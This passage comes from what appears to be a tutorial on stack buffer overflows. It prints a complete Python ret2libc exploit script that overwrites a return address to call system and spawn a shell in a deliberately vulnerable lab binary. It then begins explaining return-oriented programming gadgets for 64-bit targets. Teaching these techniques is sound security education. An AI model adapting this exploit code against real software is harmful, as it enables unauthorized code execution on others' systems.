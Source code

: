 
At this point we know how to setup the stack properly for a call to system, so
putting it all together we have our full attack:

```python

# file: exploit32b.py
# output: e32b.in
# Note: the actual stack addresses may change, so make sure to check the
# values

import struct
import sys

buff_addr = 0xffffc790 
weird_addr = 0xffffc7d8-4

system_addr = 0xf7e4eda0
dummy_ret = 'aaaa'
libc_addr = 0xf7e14000
command_addr = libc_addr + 0x15ba0b

payload = struct.pack("<I", system_addr) + dummy_ret + struct.pack("<I", libc_addr)


padding_len = weird_addr - buff_addr - len(payload)
padding = 'a'*padding_len


sys.stdout.write(payload + padding + struct.pack("<I", buff_addr + 4) )
sys.stdout.write('\n')
#This command should be executed by our newly popped shell.
sys.stdout.write('echo peanut')

```

### Return oriented programming

Now let's take a look at how system would be called in the 64-bit version of
our vulnerable binary. The primary difference between the 32 and 64-bit
binaries is that the arguments are passed via registers and not the stack (up
to a certain number of arguments). This change means that `system` is going to
looking for its  argument (i.e., the address of the "/bin/sh" string) in the
`rdi` register rather than on the stack.  This complicates our ret2libc attack
because now we have to find a way to load a particular value into the `rdi`
register, when before we just had to manipulate the stack layout a bit. To
solve this problem, we are going to add an extra step to our ret2libc attack.

Let's try to exploit our program: `gcc -o vuln64 vuln.c -fno-stack-protector`.
Like before, we are going to reuse code that is already in the program. So
first we find the address of system using gdb: `p &system`.

Here's the new bit. Now we want to find **gadgets** to that will do the work of
loading `rdi` for us.  In their simplest form, gadgets are a short sequence of
instructions ending in a return.  This technique is often called
**return-oriented programming**.
